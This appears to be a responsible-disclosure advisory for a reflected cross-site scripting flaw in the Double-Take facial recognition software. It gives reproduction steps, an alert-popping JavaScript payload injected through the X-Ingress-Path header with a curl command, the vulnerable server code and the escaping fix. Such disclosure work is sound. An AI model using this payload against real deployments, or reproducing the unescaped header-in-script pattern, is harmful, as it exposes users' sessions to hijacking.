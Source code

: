 # CVE-2025-11360 - XSS in 'Double-Take' Facial Recognition Software

Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintainer fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the `api/src/app.js` file, which evaluates unsanitized HTTP GET headers passed via the `'X-Ingress-Path'` header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
```
https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip

cd double-take-1.13.1
```
2. Point docker-compose.yml to version 1.13.1:

`docker-compose.yml`
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000
```

3. Start "Double Take" using docker compose:
```
docker compose up -d
```

5. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
```
X-Ingress-Path: ';window.onload = function() { alert(1); }//
```


6. Visit the Double-Take UI in a browser:
```
http://localhost:3000
```

You will see a JavaScript popup alert - confirming JavaScript execution.

Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:
```
curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/
```


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via `X-Ingress-Path`),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in `double-take/api/src/app.js`:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the `X-Ingress-Path` header of a `GET` request into a JavaScript `<script>` block. 
In order to prevent this exploit, I recommended safely escaping values with a function like `JSON.stringify()`:

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).
